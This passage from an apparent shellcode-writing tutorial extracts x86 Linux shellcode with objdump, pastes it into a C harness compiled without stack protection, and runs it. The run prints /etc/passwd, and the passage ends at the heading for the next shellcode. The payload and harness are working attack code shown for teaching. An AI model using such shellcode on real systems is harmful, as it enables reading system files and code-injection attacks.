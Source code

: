 Let's dump the shellcode:
```terminal_session
root@kali:~# objdump -d ./read|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc9\x31\xc0\x31\xd2\xb0\x05\x52\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x50\x53\x51\x58\x59\x5b\xb0\x03\x66\xba\xff\x0f\x42\xcd\x80\x50\x52\x58\x5a\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x50\x53\x58\x5b\xcd\x80"
```

Let's paste into our shellcode.c
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\x31\xc0\x31\xd2\xb0\x05\x52\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x50\x53\x51\x58\x59\x5b\xb0\x03\x66\xba\xff\x0f\x42\xcd\x80\x50\x52\x58\x5a\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x50\x53\x58\x5b\xcd\x80";



main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```

Finally, let's compile and run it!
```terminal_session
root@kali:~# gcc -fno-stack-protector -z execstack -m32 shellcode.c -o read
shellcode.c:9:1: warning: return type defaults to ‘int’ [-Wimplicit-int]
 main()
 ^~~~
root@kali:~# ./read
Shellcode Length:  61
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
-----snip-----
```
**Size: 61 bytes**

**Increase: 22%**

We were able to read `/etc/passwd`, it works!

## Shellcode 3 `sys_exit(0)`
